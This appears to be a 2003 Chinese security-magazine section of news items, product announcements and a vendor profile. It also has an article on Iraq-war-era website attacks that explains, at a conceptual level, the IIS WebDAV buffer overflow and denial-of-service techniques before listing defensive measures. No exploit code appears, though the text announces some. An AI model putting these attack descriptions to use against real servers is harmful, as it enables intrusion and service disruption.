国内著名的密码学专家——海信数码科技总经理刘建伟博士亲自出席了会议并担任了讲解工作，专业的技术和风趣的语言受到了在场嘉宾的一致好评。

## 半岛电视台网站遭攻击 据称黑客可能身在美国

卡塔尔的半岛电视台因独家播放美军战争片段、大量报道伊拉克人民伤亡情况，自开战后观众增加一成，但它的网站也曾一度被黑客入侵。

据报道，半岛电视台网站的网络托管商在卡塔尔，而该网站的服务器则在法国和美国，当中只有美国的服务器遭到入侵。报道称，黑客很可能就在美国。

另据一网站搜寻引擎Lycos称，半岛电视台是近日最多人搜寻的字眼之一，主因是它把电视新闻上网，吸引人们争睹伊拉克战事及美军战争的片段，而这是美国电视台不愿播出的。

### 天融信为“两会”安全效力

#### 全程服务获嘉奖

最近，天融信公司收到了“两会”警卫组的感谢信，感谢其在“两会”召开期间为网络安全工作所做的巨大努力。一个IT公司获得“两会”秘书处的表扬，这不能不说是行业的光荣。

据悉，在第十届全国人大、全国政协第一次会议召开期间，为做好安全工作，进一步提高警卫勤务的指挥调度能力和科学决策能力，“两会”警卫处组织建设了两会警卫网络信息系统。天融信公司向该网络系统提供了两台NGFW4000防火墙，并派专业技术人员提供技术支持和培训，保证了两会期间的信息通畅和网络安全，极大地方便了“两会”安全警卫工作。

据悉，2003年，天融信将构造一个整体的安全体系，推出一套针对防范、管理、审计、服务多个方面的完整的TOPSEC解决方案。TOPSEC解决方案提供3个平台支撑联动，它们是安全管理平台（T-SCM）、安全产品协作平台（T-SCP）、集中审计平台（T-SAS）。TOPSEC解决方案通过TOPSEC技术体系，集综合管理平台、产品联动平台、综合审计平台于一体，管理包括防火墙、IDS、VPN、防病毒在内的全线安全产品，为客户提供更强大、更全面的安全防护能力。

## 美国关于网上欺诈的投诉增长3倍

美国东部时间4月9日消息，FBI互联网的反欺诈部门称，2002年网上欺诈行为投诉比前一年增加到3倍。这个部门的全称为互联网反欺诈投诉中心（IFCC）。它于2000年5月成立，受美国反白领犯罪中心（NW3C）部分管理。IFCC称，2002年，它一共接到了75063起投诉，其中有48252起是关于欺诈方面的。而2001年的网络欺诈投诉为16775起。欺诈造成的损失也增加到近3倍，高达5400万美元。

2002年有关拍卖欺诈占了总欺诈犯罪的46%。网络拍卖成为主要的欺诈方式，例如雇用骗子出价，提高产品的竞标价格。此外，2002年，反欺诈中心还接到其它欺诈行为的投诉36920起，如色情文学、计算机侵入、垃圾邮件等犯罪。

### 反战黑客向布莱尔“出招”

据新华社电，芬兰一家公司因特网安全公司26日说，自伊拉克战争爆发以来，全世界范围内的反战人士用黑客手段攻击了美英数以万计的网站，英国首相布莱尔的官方站点也未能幸免。这家名为“F-SECURE”的高科技跨国公司说，针对伊拉克战争的黑客行动从战争爆发前两天就开始大量增加。黑客的主要攻击目标是美英两国中小企业和非营利机构的网站。这些网站的防黑措施相对简单，黑客们可以比较容易地把反战图片或标语安插在这些网站的网页上。

### 微软在大学设安全课程

3月21日，微软公司与几个国家的大学商议设立讲授怎样编写安全代码的课程。英国利兹大学是第一个宣称设立这类课程的大学。

利兹大学计算机系资深教授Nick Efford透露，该大学明年元月将开设这项课时为11周的学习。作为学习的一部分，要求大三的学生通过修改程序进入软件系统，然后补好他们发现的安全漏洞。

Efford说：“我们要求学生从不同的角度考虑软件的问题，用不同的观点看待它。我们会给他们一些软件样本，要求他们对它进行安全检查，找出不安全因素，再解决这些问题。”

据Efford说，学生们会碰到安全软肋如缓冲溢出这类问题，并教他们在编写软件时怎样预防。教学重点集中在软件工程与实际经验上，与大多数现有的重点讲述网络安全和密码的安全课程完全不一样。

## 黑客在邮件列表上公布未公开的UNIX漏洞

一个自称是黑客的人从一家企业的电脑中偷出了3个尚未公开的安全公告，并把这些安全公告贴在了公共电子邮件列表中。据这位匿名为“Hack4Life”的黑客称，他从一家与计算机应急反应组协调中心（CERT）合作的公司里盗窃的一套普通的UNIX代码、Kerberos身份验证系统中和执行网站加密程序中存在的一些安全漏洞。

这些安全公告的曝光使安全公司感到惊恐万分，因为有关公司在这些安全漏洞公开之前已经来不及制作补丁了。

这个黑客公布的第一个安全公告介绍了原来由Sun微系统公司制作的、在许多UNIX和Linux系统中都有的一种库文件中的漏洞。第二个公告是介绍Kerberos身份验证系统中的漏洞。这种漏洞能让黑客伪装成另一个人。第三个公告是介绍一种针对网络服务器的特别的网络攻击。这种攻击利用SSL中的漏洞，突破软件加密。

### 第二届中国信息和通信安全学术会议

#### 在武汉大学召开

文／guojpeng

由武汉大学计算机学院和软件工程国家重点实验室主办的“第二届中国信息和通信安全学术会议”（CCICS'2003）于2003年3月19日至21日在武汉举行。本次会议旨在加强国内专家学者在信息安全领域的技术交流，推动我国信息安全的发展。

本次会议由全国信息安全领域的专家、武汉大学计算机学院的副院长张焕国教授和王丽娜博士组织。参加本次会议的有我国著名信息安全专家沈昌祥院士，国家基金委信息科学部副主任刘志勇，中科院信息安全技术工程研究中心主任卿斯汉，中科院软件所信息安全国家重点实验室主任冯登国等一批国内信息和通信安全相关领域著名专家学者。

本次会议共收到论文124篇，每篇论文都由至少2位专家评审，最后由程序委员会讨论采用60篇，其中52篇为全文收录，8篇为短文收录。这些论文涉及网络安全、密码学、信息隐藏及数字水印、操作系统与数据库安全、电子商务安全等方面。这些论文既反映了我国信息安全领域的理论研究成果，又反映了我国信息安全领域的实际应用成果，既有老专家的论文，又有中青年学者和博士、硕士研究生的论文，充分展现了我国信息安全科学研究与产业发展的空前繁荣。

在开幕式上，沈昌祥院士和刘志勇同志做了特邀报告。开幕式后会议分密码学和网络安全两个小组进行讨论。其中网络安全小组重点对“无线网络的安全问题”、“面向大规模网络的入侵检测与预警系统研究”、“SKLOIS多级安全数据库管理系统的体系结构”、“蠕虫病毒”、“一种并行容侵系统研究模型RC模型”、“安全免疫系统的隐马尔可夫模型”、“一卡多用安全智能卡结构研究与应用”、“基于数据挖掘的主机入侵检测系统的研究与设计”、“一种实用的供应式安全体系架构研究”、“动态网络安全的框架模型”等20多篇文章进行了专门讨论和交流；密码学小组对“变形的‘袋悖生成器’的概率模型”、“调整一类单参数混沌系统输出”、“一类拟Bent函数密码性质的矩阵特征”、“基于时变逻辑的序列发生器”、“AES S-盒的设计分析”、“布尔函数的谱分解以及其在k维Bent函数构造中的应用”、“动态DES加密算法”等20余篇文章进行了专门讨论和交流。北京大学计算机研究所潘爱民等专家学者做了自由发言。

本次会议的分组讨论内容基本上映射出了当前信息安全领域发展的热点和最新动向：病毒和蠕虫一直是网络安全的一个重要研究方向，而入侵检测和容侵已经逐渐开始进入研究领域，动态网络安全、智能卡安全、数据库安全等等也占据非常重要的位置。而密码学专门作为一个小组进行讨论，可以看出密码学的重要性及其在具体应用的重大价值。

沈昌祥院士在题为“关于加强信息安全保障体系的思考”的特约报告中，着重强调了信息保障体系在国外的建设进展以及我国建设信息安全保障体系的迫切性。沈院士指出，信息是社会发展的重要战略资源。国际上围绕信息的获取、使用和控制的斗争愈演愈烈，信息安全成为维护国家安全和社会稳定的一个焦点。网络信息安全已成为急待解决、影响国家大局和长远利益的重大关键问题。如果信息安全问题解决不好，将全方位地危及我国的政治、军事、经济、文化、社会生活的各个方面，使国家处于信息战、信息恐怖和高度经济金融风险的威胁之中。同时，沈院士也对国内外的安全保障情况做了对比，针对我国目前的信息安全产业的状况，对影响我国信息安全产业发展的因素进行了分析，并提出了相应的具体措施和目标。

我国信息安全方面还存在不少问题，要解决这些迫在眉睫的问题，必须大力加强信息安全保障体系的建设，从安全体系整体着手，在建立全方位防护体系的同时，完善法律体系并加强管理体系。我们要发挥后发优势，在吸取别国经验教训的基础上，走独立自主的发展道路，建立适合国情的有法可依、管理高效和技术先进的信息安全保障体系。

信息安全学科是武汉大学特色学科之一。经教育部批准，2001年武汉大学建立了全国第一个信息安全本科专业，同时信息安全产业已成为武汉地区新的经济增长点。本次会议在武汉召开，必将推进武汉地区信息安全学科和产业高速发展，同时对我国的信息安全学科和产业发展也会起到很大的促进作用。

### 趋势科技 EPS II 引领企业无毒时代

在网络防毒和互联网内容安全软件服务领域内一直处于领先的趋势科技近日宣布，为配合趋势科技第二代企业安全防护战略EPS II（Enterprise Protection Strategy）在全球的同步推出，趋势科技将全面启动在中国22个城市为期一个半月的EPS II全国巡展活动。趋势科技一直以创新的技术，为客户解决日新月异的安全问题，此次EPS II的成功推出，必将为广大的企业用户提供更加完善的安全防护方案。

## 东软NetEye网络安全新品发布

东软软件股份有限公司在北京隆重发布了NetEye Firewall 3.2版及NetEye IDS 2.1版等系列网络安全新产品。同时，针对东软的安全咨询和服务体系的建设也成为本次发布会的一个亮点。“流过滤”是东软在2001年3.0版本中提出的新的防火墙架构，相对于传统的状态检测包过滤和应用代理技术，流过滤体现的是高效率、透明的应用层保护能力，使用者可以快速实施细粒度的应用级安全策略。在各个厂家纷纷开始关注应用层安全的今天，“流过滤”技术架构更加显示了其前瞻性和先进性。经过两年的不断完善和实际使用中的磨合，3.2中的“流过滤”引擎已经相当成熟和完善，在性能和稳定性方面得到了大幅度的提升，使其能够满足关键业务领域长期稳定运行的要求。

## NP技术 护航网络

北京中科网威信息技术有限公司召开了“网威千兆防火墙新品发布会”，“应用新一代网络处理器技术的高性能防火墙”——网威千兆防火墙NPFW-1000亮相于国内网络安全界。她的诞生标志着国内安全厂商首次拥有完全自主开发研制高端防火墙的技术能力，也标志着高端防火墙市场的发展迈向了新的里程。

网威千兆防火墙NPFW-1000是基于新一代网络处理器技术的高性能防火墙，在功能、性能、可靠性、安全性和扩展性等方面具有突出的优势，满足了国内电信骨干交换网络、数据中心、电子商务站点和企业内部千兆局域网络等需要进行大量数据处理和交换的网络环境的迫切需要。

在网络安全日新月异的今天，NP技术的成功突破，不仅使中科网威在网络信息安全界继续保持领先步伐，影响国内安全厂商对前沿技术的追求与探索，而且对国家信息时代的安全保障具有重要的战略意义。

## NetScreen防火墙融合入侵检测系统

NetScreen的最新产品NetScreen-IDP采用的是崭新的IDP（入侵检测和防护）技术，它可以打破NIDS（网络入侵检测系统）的瓶颈。NetScreen-IDP100采取了一系列的革新技术。第一个革新是采用多重方法检测技术（Multi-Method Detection，MMD），NetScreen采用了8种不同的检测方法以强化检测力，同时减少错误报警。这些检测方法包括协议异常检测、流量异常检测以及一些专利技术，如：状态签名（Stateful Signature）、后门检测（Backdoor Detection）等。第二个革新是NetScreen-IDP100采用了一个带内（in-Line）解决方案，这是惟一能对付潜逃的技术，提供真正入侵防护的方法。第三个革新是基于规则的中央式管理的构架。集中管理使管理员能精确控制NetScreen-IDP100的水平，同时简化安全策略和签名更新的作业。

## Nokia IP系列防火墙 优秀功能的简便集成

诺基亚IP防火墙系列产品是专门面向IP网络安全的专用网关型产品。其路由与安全相结合，采用集成方式提供防火墙应用，用户无需使用单独的Intranet路由器、接入路由器、管理工作站和防火墙服务器，简化了为现有网络增加防火墙技术的复杂性，使得IT人员能够集中精力从事重要的网络管理工作。通过集成，用户再也不需要费尽心机地翻阅不同厂商提供的报价单和产品资料。所有的支持和升级只有一个来源。所有的硬件和软件都已在工厂定制，安装就绪。诺基亚提供了VRRP（虚拟路由器冗余协议）和Firewall Sync（Check Point的防火墙同步技术），允许两个或多个诺基亚系统间实现负荷分担的冗余。这些技术是所有诺基亚IP解决方案产品的标准配置。而且Nokia IP系列采用VRRP，可以实现带有一定负载平衡的HA，与传统的Standby方式的HA有显著的不同，而且可以实现在1秒内完成切换。在保证专用网络完整性的同时，该产品为重要的供应商和远程用户提供了安全可靠的连接。

### 理工先河：网络安全中坚之路

本刊特约记者 孙晓飞

同为攻防对抗，“理工先河”不求围魏救赵，不求诱敌深入，而是坚守网络攻防的最基本、也是最核心的战术：智能检测，动态防护。以先进的基于主机的入侵检测技术为核心，融合智能技术和控制系统技术，与其他各类安全产品联动配合，构筑一个动态的、智能化的网络安全防护体系，监测网络资源，防范黑客入侵。

“理工先河”为什么能从战略的高度去设计网络安全产品、从战术的灵活运用上去丰富和完善自己的产品？从战争的最终而有效的结果——“不战而屈人之兵”这一战略的最高境界上去把握产品？

近日，记者走进“理工先河”公司，才揭开了这个谜：“理工先河”公司有着很深的军方背景，专为国防信息安全系统做保驾护航工作；“理工先河”推出的网络安全产品——“金海豚”网络动态防护系统的设计者胡昌振教授是一位武器研究专家，研发思想借鉴了他曾经主持研制的军用系统“多传感器远距离地面战场侦察预警系统”（该系统曾获国家科技进步三等奖）；而理工先河公司的总经理张潜又是一个战争史的超级发烧友，认为网络攻防与战场上的攻防对抗有着许多的相似之处。理工先河公司引人注目的产品广告——一幅古代楚汉相争形势图，就出自张潜的创意。

在那幅隐含杀气的战场形势图后，是否也同样隐藏了“理工先河”公司在网络安全产品市场上的雄心？是否会在短暂的隐忍后，一路攻城掠地，在网络安全市场上成就自己的霸业？

#### 理工先河：具有强大背景支持

北京理工先河科技发展有限公司背靠北京理工大学，依托国防重点实验室，在其成立之初就得到了国防科工委、北京市科委、科技部等政府机构的大力支持，去年又被原国家计委定为科技产业化信息安全重大专项的实施单位，获得了国家的各种政策资金近8000万。

理工先河公司运营总监尹智透露说，理工先河自主研究开发的“金海豚”网络动态防护系统是目前最主流的IDS（网络入侵检测）产品之一。北京市科委在对这个产品作鉴定时评价说：这是国内第一个具有完全自主知识产权的网络安全产品，填补了国内在网络攻击检测系统领域的空白。

记者经过深入探究，发现理工先河的成立与发展，并不像那位高层人士所透露的资讯那样简单。

随着信息技术的广泛应用以及互联网的普及，计算机网络的安全问题日益突出，目前我国55％以上的计算机受到病毒的感染；80％的中文网站缺乏完善的安全保护系统，70％经济部门的信息安全设备来自国外，特别是操作系统和网络设备使用的核心软件和关键芯片大部分依赖进口，为我国计算机网络系统的安全留下很大隐患。

另据调查显示，在建有内部网络的单位中，有30.7％的单位尚未制定详细的网络安全策略；24.7％的单位没有定期的安全检测；21.8％的单位没有制定网络应急响应措施；26.8％的单位没有对网络维护人员进行过网络安全培训。

计算机问题解决不好，将危及我国政治、军事、经济、文化、社会生活的方方面面，危及国家的安全和社会稳定。因此，信息安全已经提到了维护社会稳定和国家安全问题的战略高度。

国防科技大学的一项研究表明，目前我国与Internet网相连的网管中心有75％都遭到过境外黑客的攻击或侵入，其中银行、证券等金融机构是攻击的重点。

在此复杂背景下，“理工先河”的出现，显得义不容辞且非常必然。

理工先河所开发的网络安全产品在国防系统已得到有效应用。因为拥有自主知识产权、独特的设计理念、产品的可靠性和稳定性又非常好，就大大增加了网络的安全系数。而且，据了解，“金海豚”网络动态防护系统是目前国内唯一一家同时获得中国人民解放军信息测评认证中心认证、中国信息安全测评认证中心认证、国家保密局涉密信息产品认证和公安部网监产品认证的网络安全产品。

“理工先河”的一位高层人士说：“一点都不夸张地说，我们有一种社会责任感和神圣的使命感”。

#### 技术能力：理工先河的“科技底座”

在“理工先河”，人们频频提到的一个名词叫“技术能力”；“技术能力为本”成为公司在开展销售、市场、服务、研发等各项工作时的总纲。

什么叫“技术能力”？“理工先河”的市场部经理陈利华解释说，技术能力包括三个方面。

- 一是人才的组织和培养。只有人才才是公司发展的根本。在这方面，北京理工大学的国防重点实验室和公司的技术人员成为理工先河“软”的技术能力。几十位博士、硕士和一大批在前沿领域进行研究的博士、硕士为“理工先河”网络安全产品的不断升级提供了技术支持。
- 二是技术的综合能力。解决网络安全问题要综合各种各样的技术，单纯依靠一种技术必然会有漏洞和缺陷。那么需要我们去综合各种安全技术、产品，组成一个系统的、相对完善的安全防护体系。
- 三是技术的运用能力。掌握的技术不能仅仅局限在某个部门、某个人、某个公司，要通过一定的渠道进行有效的传播。在公司层面，技术人员需要将各种技术能力扩散到销售、市场、服务等其他部门；对于整个国家来讲，就是掌握了这些先进技术的机构，要能够将技术传播到需要的地方——也就是应用的能力。

理工先河技术服务中心副总经理王刚说，“金海豚”网络动态防护系统，是一种真正基于主机的入侵检测产品。因为检测对象是主机，所以就有个“操作系统”的问题，不同的操作系统就需要不同的检测技术，而“金海豚”已经能够适用于Windows、Solaris、AIX、TRU64 UNIX、HP-UX、Irix、FreeBSD、Linux等几乎所有的主流操作系统。

王刚介绍说，在国外也有类似的产品，但国外产品多数为两层结构，“金海豚”动态防护系统为三层结构：一层为主机上的探测器，一层为一个独立的分析机，一层为控制管理系统。系统的核心是一个专家检测系统，可以对各种事件进行复杂性分析，从而有效地对入侵行为进行分析和控制。同时，“金海豚”动态防护系统不受网络拓扑的限制，也不受交换环境和加密环境的限制，不受带宽的影响，误报率和虚警的情况非常少。

#### 推广安全理念：“理工先河”的制胜之道

同其他一些网络安全产品的提供商不同的是，“理工先河”的销售理念是“未售产品，先售理念”。销售总监唐海林说：“我们公司不向外界提供任何客户名单，因为网络安全产品是不能公开予以披露的。如果我们告诉大家哪个单位、哪个系统安装了某某网络安全防护产品，那还有安全性可言吗？”

“我们告诉用户，网络安全产品永远处于一个对抗过程之中，产品的技术性能和更新换代也是一个不断变化的过程，有了网络安全防护产品，并不是一劳永逸了。”

“我们更多地是在向客户宣传网络安全防护知识，只有防护知识更新了，观念才能更新，才能跟上时代的发展，我们的网络安全产品才能有更好的市场生存空间。”

我国因为网络安全系统被破坏而造成严重经济损失的案例在不断增加。2002年12月，南京发生团伙伪造信用卡案，作案人非法提取超过100万元的现金；2002年3月，北京某大学生利用盗窃账号密码上网并在网上广泛传播而造成服务商费用损失达10万元；2003年10月，3名上海人侵入银行电脑网络，非法提取现金10多万元用以挥霍。类似案件还有很多，说明对网络安全的重视已到了刻不容缓的地步。

理工先河公司有一个技术力量很强的研发中心和网络安全实验室，能够围绕自身产品为客户做好解决方案，为客户做专业的安全评估、修补和培训等服务；并可以根据网络评估结果，为客户提供一些安全建设的建议方案，使安全防范工作未雨绸缪。

正因为不以产品的卖出数量为唯一目的，而以最终的服务结果为追求目标，“理工先河”公司不但在军方获得大量订单，在其他涉密系统也成为最为信赖的伙伴。

#### 从产品到市场：“理工先河”的瓶颈

事实上，产品的先进性还不是覆盖市场的唯一理由。

售后服务及其完善的解决方案也还不是赢得客户的最重要手段。对于“理工先河”来说，从面向军方的单一供货实现面向社会的多元供货，从单一需求向多元需求的过渡，都还有许多路要走。

理工先河是从2002年7月份才正式进入公开市场的，这里有一个学习和成长的过程。与一些老牌的安全企业相比，理工先河在社会资源、经验等各方面都有所不足，这也是成长型企业的共同特征。

不知是企业背景原因导致的惯性思维，还是别的一些什么条件限制，理工先河在做市场宣传时总是保持“低调”。至今，理工先河没有举行过大规模的市场宣传推广活动；在广告、展会以及整合营销方面，都没有做很多的投入。而这些，可能会严重制约“理工先河”的迅速市场化。

但我们相信，好的产品最终会赢得客户的认可，“金海豚”也会跃出龙门，在中国以至世界的安全产品市场上，有所作为。

（未经作者许可，本文禁止转载、禁止作宣传等其他用途，否则将追究其法律责任）

### 美伊战争引发黑客大战

文／重庆海王星 tanker

当美军的炸弹如雨点般投下伊拉克的时候，在世界的另一个空间——Internet，全世界范围内的反战人士用黑客手段攻击了美英数以万计的网站。黑客的主要攻击目标是美英两国中小企业和非营利机构的网站。这些网站的防黑措施相对简单，黑客们可以比较容易地把反战图片或标语安插在这些网站的网页上。除了篡改网页内容，贴上一些言辞激烈的内容外，黑客们还大量地采用了“拒绝服务”攻击手段。他们向一些网站的服务器发送大量请求信息，使这些服务器因为数据堵塞而陷入瘫痪。

据芬兰一家网络安全公司3月26日说，自伊拉克战争爆发以来，全世界范围内的反战人士用黑客手段攻击了美英数以万计的网站，英国首相布莱尔的官方站点也未能幸免。这家名为“F-SECURE”的高科技跨国公司说，针对伊拉克战争的黑客行动从战争爆发前两天就开始大量增加。最近一周来，这家公司每天都记录了成千上百的黑客攻击行动。黑客的主要攻击目标是美英两国中小企业和非营利机构的网站。这些网站的防黑措施相对简单，黑客们可以比较容易地把反战图片或标语安插在这些网站的网页上。这家公司举例说，3月25日黑客们篡改了几百家美国公司的网站，将一张死亡儿童的血腥照片放在这些网站的首页上。

这次黑客大战中，在伊拉克战争报道中与美英媒体视角不同的卡塔尔半岛电视台，其网站在上周遭受持久而大规模的黑客攻击，却创造了大型网站遭“黑”的世界纪录。这家主要覆盖阿拉伯语地区的卫星电视台，在开战后将很多战事报道放在其网站上，并于上周一推出了英语新闻频道，目标对准英语地区用户。但此后不久，这家网站即遭到黑客攻击。黑客利用大量的“虚假请求”堵塞这家网站的数据通道，使网民们无法正常访问该网站。

一群自称“自由网络力量民兵”（Freedom Cyber Force Militia）的黑客组织，成功地把指向半岛电视台网站的网络链接篡改，使其指向另外的一个不同的页面。页面上有一幅用国旗覆盖的美国地图，地图下方标有“Let freedom ring”的字样，如图1所示。当然，英美两国也遭到了严厉的报复，一些商业站点和企业计算机遭到攻击，使得一些商业活动中断。政府和军方的系统也遭到了袭击，只不过袭击的次数较少，对经济、军事等方面造成了一定的影响。

图1

蠕虫当然也要来凑凑热闹。3月24日上午，瑞星全球反病毒监测网监测到与战争有关的两个病毒，并将它们分别命名为：“和平蠕虫”（Worm.wanor）病毒、“表达”（Worm.vote.d）病毒。“和平蠕虫”病毒以反战为主题，而“表达”病毒则提醒人们不要忘记“9·11事件”。

看来，和平已是世界人民的呼声，美国这种行径必将遭到世界渴望和平的人民的反对！

在这次攻击中，主要运用了两种黑客手段：Microsoft Windows 2000 WebDAV远程缓冲区溢出和拒绝服务攻击。我们无意对这场网络战进行过多的讨论，应该从美伊网络战中吸取经验教训，做好防御措施，提高国内主机的安全性，做好准备，避免在某些突发的攻击事件中遭到破坏，造成损失。

### 一、Microsoft Windows 2000 WebDAV远程缓冲区溢出漏洞

Microsoft Windows 2000 WebDAV远程缓冲区溢出漏洞，是这次黑客入侵手段的重头戏。Microsoft IIS 5.0（Internet Information Server 5）是Microsoft Windows 2000自带的一个网络信息服务器，其中包含HTTP服务功能。IIS 5默认提供了对WebDAV的支持，通过WebDAV可以通过HTTP向用户提供远程文件存储的服务。但是，作为普通的HTTP服务器，这个功能不是必需的。IIS 5.0包含的WebDAV组件不充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对WebDAV进行缓冲区溢出攻击，可能以Web进程权限在系统上执行任意指令。IIS 5.0的WebDAV使用了ntdll.dll中的一些函数，而这些函数存在一个缓冲区溢出漏洞。通过对WebDAV的畸形请求可以触发这个溢出。成功利用这个漏洞可以获得LocalSystem权限。这意味着，入侵者可以获得主机的完全控制能力。下面附上一段代码，请各位参考：

#### 二、拒绝服务攻击

拒绝服务攻击和其他大部分攻击不同的是，因为它们不是以获得网络或网络上信息的访问权为目的。攻击主要是使服务不能为正常的使用提供服务，通常可以用耗尽网络、操作系统或应用程序有限的资源来实现。

在这次的美伊网络战中当然少不了，一些商业、军事网站就遭到这种方式的攻击，造成的经济损失无法估量。虽然拒绝服务攻击是最简单的，但也是最有效的攻击手段。

### 1. DOS的3种基本攻击形式

典型的拒绝服务攻击有如下三种形式：资源耗尽和资源过载，以及物理层面的破坏。当一个对资源的合理请求大大超过资源的支付能力时，就会造成拒绝服务攻击（例如，对已经满载的Web服务器进行过多的请求）。拒绝服务攻击还有可能是由于软件的弱点或者对程序的错误配置造成的。区分恶意的拒绝服务攻击和非恶意的服务超载，依赖于请求发起者对资源的请求是否过分，从而使得其他的用户无法享用该服务资源。

- （1）服务过载

当大量的服务请求发向一台计算机中的服务守护进程时，就会发生服务过载。这些请求可以通过许多方式发出，许多是故意的。在分时机制中，这些潮水般的请求，使得计算机十分忙碌地处理这些不断到来的请求，以至于无法处理常规的任务。同时，许多新到来的请求被丢弃，因为没有空间来存放这些请求。如果攻击的是一个基于TCP协议的服务，那么这些请求的包还会被重发，结果更加重了网络的负担。这种攻击可能是一个攻击者为了掩盖自己的痕迹，阻止对攻击者的记录和登录请求的系统记账审计。这种攻击会阻止系统提供的一种特定服务。

- （2）消息流

消息流发生于用户向一台网络上的目标主机发送大量的数据包，来延缓目标主机的处理速度，阻止它处理正常的任务。这些请求可能是请求文件服务，要求登录，或者仅仅是简单地要求响应包（例如ping）。无论是什么形式，这些潮水般的服务请求，加重了目标主机的处理器负载，使目标主机消耗了大量的资源来响应这些请求。极端的情况，这种攻击可以引起目标主机因为没有内存来做缓冲以存放到来的请求，或者因为其他错误而死机。这种拒绝服务的攻击主要针对网络服务器。一个简单的攻击类型是“广播风暴”。攻击者可以生成这样一个消息，它将指示每一个收到包的主机回答或者重发这个消息，结果网络饱和。

- （3）信号接地

物理方法也可以关闭一个网络。将网络的电缆接地，引入一些其他信号，或者将以太网上的端接器拿走，都可以有效地阻止客户发送或者接收消息。这种攻击方式不仅可以阻止那些依赖服务器提供程序和资源的各种机器，也可以阻止向主服务器汇报赃物的登录请求或者危险的行为，来掩盖一次非法访问的企图。在这种情况下，被攻击的主机要向主服务器报告发现的错误信息。保护网络的电缆不被物理地接入其他设备，这也可以减少被监听的威胁。这种保护措施减少了对电缆上的各个节点的监听和欺骗，也可以有效地防备信号接地这类拒绝服务的攻击。

### 2. 针对拒绝服务攻击有关的快速补救措施

和其他安全漏洞相比，控制主机群并从其发动拒绝服务是很复杂的。换句话说，没有什么简单的单一措施可以防止类似的攻击，而必须采用多种安全和保护手段来防止这样的攻击。对于那些目前系统正受到威胁的网管们，以下提供的快速简单的方法可能会对你们有所帮助。

- 1. **避免FUD**

FUD代表恐惧（fear）、不确定（uncertainty）和否定（doubt）。最近的攻击造成了成为目标的受害者的愤怒与不冷静。但是应当意识到的是，只有少部分的公司和主机有可能成为拒绝服务攻击的受害者。这些包括最受欢迎的站点，例如搜索引擎，最流行的电子商务和证券公司，IRC聊天服务器，以及电子杂志（为了明显的目的）。如果你不是包含在这些里面的，你就不用担心成为DoS攻击的直接目标。

- 2. **与你的互联网上行链路供应者合作**

协助你的直接主要和上行链路供应者并与之合作是很重要的。在DDoS攻击者使用的带宽是很大的，你自己的网络一般来讲不论你如何尝试都是不能处理的。所以，与你的上行链路取得联系，确保它们会帮助你实现访问控制，来限制在同一时间允许通过的带宽量和不同的源地址数量。在理想的情况下，你的上行链接会在确实存在攻击的情况下监控或是允许你访问它们的路由。

- 3. **优化你的路由和网络结构**

如果你所拥有的不止是一个主机，而是一个大的网络的话，你该调整你的路由来减小DoS攻击的威胁。要防止SYN淹没攻击，可设置TCP检查功能。关于这个的技术细节可以从http://www.cisco.com或是你的路由供应商的热线获得。阻塞那些你的网络不需要的UDP和ICMP消息，特别是那些向外发送的ICMP不可到达消息会加重包淹没攻击的危害。

- 4. **优化你最重要的公共访问的主机**

在可能成为潜在目标的主机上做同样的事情。拒绝所有你的服务器不需要运行的服务所需要的流通。进一步来讲，多次分配（向一个主机分配多个IP）会给攻击者造成很大的障碍。我建议你将自己的网站分配到多个物理上独立的主机上，那些主机上的HTML索引站点只会有你真正的网络服务器的转发入口。

- 5. **在攻击正在进行时，立即采取措施**

尽快地追踪包并与追踪显示包风暴来源于它们的网络的上行链接联系是很重要的。不要认定那些源地址，一般在DoS攻击中它们是任意选择的。能否确定伪装了的DoS攻击的来源取决于你的快速反应，因为允许流量追踪的路由入口会在大量数据包过后过期。目前已经或者是潜在地被控制、闯入或者安装了协助数据淹没程序的用户所应当做的重要的事。

- 6. **避免FUD**

作为潜在的被侵害者，你应当合理有效地采取措施而不是惊慌。注意目前的拒绝服务攻击的服务器软件基本上都是为Linux和Solaris书写并在上面安装的。它们有可能会移植给BSD系统，但是由于它们更为安全，所以不用担心会出现什么大问题。

- 7. **确定你的主机没有被控制**

目前有很多可以利用的漏洞，并且许多老的漏洞也再次出现了。检查利用信息的数据库，比如securityfocus.com或是packetstorm.securify.com，来确定你的服务器软件的版本是否存在漏洞。记住，入侵者必须使用现有的漏洞来进入你的系统并安装他们的程序。你应当检查你的服务器配置来查找安全方面的误操作，运行最新升级的软件版本，并且，运行你所需要的最少的服务也是最重要的。在某种程度上来说，你可以认为自己是安全的了。

- （8）经常性地检查你的系统

你应当意识到你应该对自己的系统和发生在系统中的事情负责。你得学习足够的知识来了解你的系统的服务器软件是如何运行的，并经常性地检查你所采用的安全策略。查看完全开放的安全站点来查找新的在你将要采用的操作系统和服务器软件中的漏洞和缺陷。

- （9）使用加密校验

在一个你确定没有被闯入或是控制的系统中，你应当建立对你所有的二进制和其他可信系统文件产生数字签名的系统，并周期性地检查那些文件的变化。进一步来讲，建议在不会被远程攻击者访问到的其他机器或是可移动媒体上存储系统真正的校验和。可以用于这项操作的软件，比如 tripwire，可以在类似 packetstorm.securify.com 和公开开放的源 FTP 中找到。如果你喜欢，你可以采用商业用途的软件。

- （10）在正在被攻击的时候：立即关闭你的系统并做检查

如果你在你的主机或是系统中检测到了攻击，你必须立即关闭你的系统，至少也得将系统从网络上断开。如果类似的攻击在你的机器上出现的话，这就意味着攻击者几乎获得了主机的全部控制权。它们应当被检查出来并且卸载掉。你同样可以与安全机构或是 CERT（www.cert.org）或 SANS（www.sans.org）取得联系并求助。向这些机构提供黑客在你被控制的主机上留下的信息同样很重要，因为它们会帮助记录下攻击的来源。

要彻底杜绝拒绝服务攻击，只有追根溯源去找到正在进行攻击的机器和攻击者。要追踪攻击者不是一件很容易的事情，一旦其停止了攻击行为，很难将其发现。惟一可行的方法就是在其进行攻击的时候，根据路由器的信息和攻击数据包的特征，采用一级一级回溯的方法来查找其攻击源头。这时需要各级部门的协同配合才可能很好地完成。

#### 三、增强网络安全性的措施

### 1. 在局域网内

- （1）对服务器操作系统进行安全加固，密切关注操作系统的漏洞发布，并及时安装系统最新补丁；建立良好的账号管理制度，使用强悍的口令，强制实行口令策略，并正确设置用户访问权限。

- （2）恰当地配置 Web 服务器，删除和关闭无用的或不必要的服务。最小的服务就是最大的安全。

- （3）对服务器进行远程管理时，使用 SSL、SSH 等进行传输。避免使用 Telnet、FTP 等程序，因为这些程序是以明文形式传输密码的，很容易被监听；严格控制远程 root 身份的使用，仅在绝对需要时，才允许使用具有高授权的操作。

